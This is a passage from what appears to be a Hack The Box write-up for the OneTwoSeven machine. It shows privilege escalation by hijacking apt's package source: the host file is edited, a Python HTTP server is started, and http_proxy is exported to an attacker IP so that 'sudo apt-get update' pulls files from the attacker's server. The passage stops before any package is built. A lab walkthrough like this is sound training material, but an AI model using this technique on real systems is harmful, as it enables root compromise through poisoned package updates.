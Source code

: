![image22](/assets/images/htb-onetwoseven/onetwoseven22.png)

If we see thge content of `/etc/apt/sources.list.d/onetwoseven.list` we see that it retrieves the packages from `packages.onetwoseven.htb`

```
cat /etc/apt/sources.list.d/onetwoseven.list 
# OneTwoSeven special packages - not yet in use
deb http://packages.onetwoseven.htb/devuan ascii main
```

Add this to `/etc/hosts`

```
127.0.0.1       localhost       packages.onetwoseven.htb
```

Now I star the server with python

```
sudo python3 -m http.server 80
```

Now export the `http_proxy` to your server

```
export http_proxy="http://10.10.14.17:8181"
```

Now when we do `sudo apt-get update` we see that the box request files from our server, we see that it's requesting to the directory `devuan` let's make a directory with this name

Then we see that it want the packages from here:

